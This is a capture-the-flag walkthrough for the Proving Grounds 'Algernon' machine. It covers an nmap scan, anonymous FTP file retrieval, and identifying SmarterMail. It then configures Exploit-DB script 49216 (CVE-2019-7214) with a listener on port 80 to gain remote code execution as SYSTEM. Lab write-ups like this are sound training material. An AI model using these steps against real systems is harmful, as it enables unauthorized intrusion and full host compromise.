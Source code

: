 # PG Algernon
## SmarterMail
## Nmap Scan
```
nmap -T4 -p- -A -oA scan-advanced 192.168.x.x
```
## Service Enumeration
```
Looking at the nmap output, anonymous login appears to be enabled on this FTP server.
I test the login and download all the files using mget *.
```
## FTP
```
mget *
```
## SMB
```
No anonymous share enumeration, access denied.
```
## HTTP
```
Looks like a default installation of Microsoft IIS web server.
I test for any files or directories using gobuster, but find nothing.
```
## HTTP (TCP/9998)
```
Looks like an alternative web service called, SmarterMail.
Check Exploit DB for any vulnerabilities matching this service name using searchsploit. 
Default credentials found using Google search do not work here.
Source code reveals a version number.
```
## .NET Remoting (TCP/17001)
```
.NET Remoting (TCP/17001)
Searching Google for information on this port, I see repeated mentions of remote code execution (RCE) coupled with SmarterMail.

    https://www.speedguide.net/port.php?port=17001
    https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-7214
    Confirm on Exploit DB: https://www.exploit-db.com/exploits/49216
```
##  Exploit
```
Using the exploit found using searchsploit I copy 49216.py to my current working directory.
Edit the exploit variables:

HOST='192.168.x.x'
PORT=17001
LHOST='192.168.x.x'
LPORT=80

Python
I then, start a TCP listener on port 80 and run the exploit.
python3 49216.py
```
##  Post-Exploitation
```
The SmarterMail service is being executed by the SYSTEM account, meaning I have fully compromised this host.
```


